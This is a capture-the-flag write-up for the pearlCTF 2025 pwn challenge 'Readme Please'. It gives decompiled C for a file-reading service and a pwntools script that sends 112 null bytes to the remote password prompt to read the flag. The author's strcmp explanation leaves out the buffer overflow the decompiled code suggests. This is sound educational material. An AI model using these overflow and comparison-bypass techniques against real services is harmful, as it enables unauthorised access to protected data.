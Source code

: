 # Readme Please

{% hint style="info" %}
Category: PWN

Difficulty: easy
{% endhint %}

## Description

> I made a very secure file reading service.
>
> **Links**: nc readme-please.ctf.pearlctf.in 30039
>
> **Files**: _readme\_src.zip_

## Solve Walkthrough

* This is also a simple pwn challenge, without special technique. Only depends on your logic and knowledge in binary.
* First, after we unzip the source code, let's check the ELF binary protection.

```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/pearlCTF/2025/pwn/readme_please/source/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

* This is a list of available functions inside the binary.

<figure><img src="../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

* We only got 2 interesting function symbols, which is the `main` function and `generate_password` function.
* Here's the decompiled of `main` and `generate_password` functions.

{% tabs %}
{% tab title="main" %}
```c
// main function.
undefined8 main(void)

{
  int iVar1;
  char *pcVar2;
  FILE *__stream;
  long in_FS_OFFSET;
  int local_18c;
  char local_178 [112];
  char local_108 [112];
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  generate_password(local_98,0x7f);
  printf("Welcome to file reading service!");
  fflush(stdout);
  local_18c = 0;
  do {
    if (1 < local_18c) {
      if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return 0;
    }
    printf("\nEnter the file name: ");
    fflush(stdout);
    __isoc99_scanf(&DAT_00102088,local_178);
    pcVar2 = __xpg_basename(local_178);
    __stream = fopen(local_178,"r");
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,local_108);
        iVar1 = strcmp(local_108,local_98);
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
      while( true ) {
        pcVar2 = fgets(local_108,100,__stream);
        if (pcVar2 == (char *)0x0) break;
        printf("%s",local_108);
        fflush(stdout);
      }
      fclose(__stream);
    }
LAB_001015f2:
    local_18c = local_18c + 1;
  } while( true );
}
```
{% endtab %}

{% tab title="generate_password" %}
```c
void generate_password(void *param_1,ulong param_2)

{
  char cVar1;
  int __fd;
  ulong uVar2;
  ulong local_10;
  
  __fd = open("/dev/urandom",0);
  if (__fd < 0) {
    perror("Failed to open /dev/urandom");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar2 = read(__fd,param_1,param_2);
  if (uVar2 != param_2) {
    perror("Failed to read random bytes");
    close(__fd);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  close(__fd);
  for (local_10 = 0; local_10 < param_2; local_10 = local_10 + 1) {
    cVar1 = *(char *)(local_10 + (long)param_1);
    *(char *)(local_10 + (long)param_1) =
         cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
  }
  *(undefined1 *)(param_2 + (long)param_1) = 0;
  return;
}
```
{% endtab %}
{% endtabs %}

* Pretty long huh?, but the code is straightforward:
  * First, the code will generate a new password to protect the `files/flag.txt` file that we inputed. The password is randomly generated from `/dev/urandom` file and will be store in `local_98` array with only **112 Bytes**.
  * We've to input the correct path of a target file that we want to read. There are only 3 files that we can read from the remote machine, including `flag.txt`, `default.txt`, and the `note-1.txt` (I aware you not to read this file :v).
  * If we type: `files/flag.txt` , it means that we've to provide the password!. Otherwise, all files can be read without have to provide a password.
  * **Tips**: Don't get too confused in the password transformation from `/dev/urandom` in the `generate_password` function. _Better leave it_ haha..
* Notice that in the `main` function is comparing a string of `local_98` (**generated password**) with a `local_108` (**user input password**).

{% code title="main" overflow="wrap" lineNumbers="true" %}
```c
  // snipped code.
    if (__stream == (FILE *)0x0) {
      puts("Please don\'t try anything funny!");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(pcVar2,"flag.txt");
      if (iVar1 == 0) {
        printf("Enter password: ");
        fflush(stdout);
        __isoc99_scanf(&DAT_00102088,local_108);
        iVar1 = strcmp(local_108,local_98); // vuln is happen here.
        if (iVar1 != 0) {
          puts("Incorrect password!");
          fflush(stdout);
          goto LAB_001015f2;
        }
      }
  // snipped code.
```
{% endcode %}

* How we can bypass the condition? Since it was using the `strcmp`function, so we can send some `\x00`(**NULL Byte**) characters in the input password prompt.
* But, how long the `\x00` characters that we need? It's only **`112` Bytes** (**0x70**) until our input is reach the max of array length.
* So, here's my exploit script.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3

from pwn import *
import itertools

context.binary = elf = ELF("./main", checksec=0)
context.log_level = "DEBUG"

is_remote = True

if is_remote:
    io = remote("readme-please.ctf.pearlctf.in", 30039)
else:
    io = elf.process()

# Send first request to read the flag.txt file.
io.sendlineafter(b"Enter the file name: ", b"files/flag.txt")

# Abuse the string comparison with \x00 characters.
io.sendlineafter(b"Enter password: ", b"\x00"*0x70) # 112 Bytes.

print(io.recvall(timeout=1))

# Close the remote connection.
io.close()
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>pearl{f1l3\_d3script0rs\_4r3\_c00l}</kbd>
